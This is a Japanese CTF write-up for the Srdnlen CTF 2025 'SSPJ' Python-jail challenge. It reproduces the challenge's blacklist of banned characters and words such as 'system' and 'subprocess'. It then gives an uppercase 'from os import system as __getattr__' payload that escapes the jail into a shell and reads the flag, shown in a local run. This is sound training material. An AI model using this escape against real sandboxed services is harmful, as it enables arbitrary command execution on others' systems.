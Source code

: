 +++
author = "Hugo Authors"
title = "Srdnlen CTF 2025"
date = "2025-01-15"
description = ""
tags = [
    "CTF",
    "writeup",
    "srdnlen",
]
categories = [
    "Security",
    "Programming",
]
image = "https://raw.githubusercontent.com/stark2420/starknote/refs/heads/main/static/image/srdnlen-ctf-2025/cover.png"
+++

2025/1/19 03:00(JST) - 2025/1/20 03:00(JST)で開催された Srdnlen CTF 2025 に参加した．

<!--more-->
開催期間後に解いた問題をまとめる．

https://ctf.srdnlen.it/
https://ctftime.org/event/2576

## MISC
### SSPJ 
> nc ~

サニタイズされた任意のコマンドを実行できるPyjail, PyExec問題．いくつかのアルファベットや記号，単語は使えない．

```py
class SSPJ(object):
    def __init__(self):
        print("Welcome to the Super Secure Python Jail (SSPJ)!")
        print("You can run your code here, but be careful not to break the rules...")

        self.code = self.code_sanitizer(input("Enter your data: "))

        # I'm so confident in my SSPJ that 
        # I don't even need to delete any globals/builtins
        exec(self.code, globals())
        return

    def code_sanitizer(self, code: str) -> str:
        if not code.isascii():
            print("Alien material detected... Exiting.")
            exit()

        banned_chars = [
            # Why do you need these characters?
            "m", "o", "w", "q", "b", "y", "u", "h", "c", "v", "z", "x", "k"
        ]

        banned_digits = [
            # Why do you need these digits?
            "0", "7", "1"
        ]

        banned_symbols = [
            # You don't need these...
            ".", "(", "'", "=", "{", ":", "@", '"', "[", "`"
        ]

        banned_words = [
            # Oh no, you can't use these words!
            "globals", "breakpoint", "locals", "self", "system", "open",
            "eval", "import", "exec", "flag", "os", "subprocess", "input",
            "random", "builtins", "code_sanitizer"
        ]

        blacklist = banned_chars + banned_digits + banned_symbols + banned_words
        random.shuffle(blacklist)

        if any(map(lambda c: c in code, blacklist)):
            print("Are you trying to cheat me!? Emergency exit in progress.")
            exit()

        return code.lower()
```

Pyjail, PyExec問題では，[Pyjail Cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet)によくまとまっている．
今回は，以下が使える．
```
from os import system as __getattr__; from __main__ import sh
```
アルファベットの小文字の一部がサニタイズされているため，そのままでは上手くいかない．全て大文字で上手くいく．
```
FROM OS IMPORT SYSTEM AS __GETATTR__; FROM __MAIN__ IMPORT SH
```

今回は，開催期間後にローカルで実行した様子を示す．
```
$ docker-compose up
$ nc 127.0.0.1 1717
Welcome to the Super Secure Python Jail (SSPJ)!
You can run your code here, but be careful not to break the rules...
Enter your data: FROM OS IMPORT SYSTEM AS __GETATTR__; FROM __MAIN__ IMPORT SH

ls
flag-5d67dabaeb377feb4e8f79f80dd546f9.txt
sspj.py

cat flag-5d67dabaeb377feb4e8f79f80dd546f9.txt
srdnlen{REDACTED}
```
